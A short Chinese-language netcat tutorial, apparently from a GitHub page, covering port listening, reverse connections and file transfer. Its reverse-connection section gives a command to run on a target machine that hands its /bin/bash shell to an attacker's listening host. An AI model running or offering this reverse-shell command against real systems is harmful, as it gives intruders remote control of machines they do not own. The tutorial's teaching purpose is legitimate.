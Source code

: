 ### 介绍

nc（Netcat）是一个非常强大的网络工具，通常用于进行端口扫描，监听端口，传输数据，建立反向连接等操作，它被广泛用于网络调试，渗透测试以及其他安全相关工作。





### 基本用法



#### 本地开启监听

```
nc -lp <port>
```

port 端口号

本地开启监听xxx端口





### 建立反向连接

目标主机执行：

```
nc -e /bin/bash <ip> <port>
```

ip：攻击主机的ip

port：攻击主机监听的端口

-e /bin/bash ：执行反向shell命令，目标机器会通过nc连接回攻击者，并将目标机器的shell提供给攻击者。





#### 文件互传

在发送方机器上执行：

```
nc -l -p <port> <file.txt
```

-l：监听模式

-p：监听端口

< file.txt ：指定要发送的文件。



在接收方主机执行：

```
nc <ip> <port> > filename
```

ip：发送方的ip

port：端口号，必须与发送方的端口一致

\> filename 将接受的数据重定向的文件中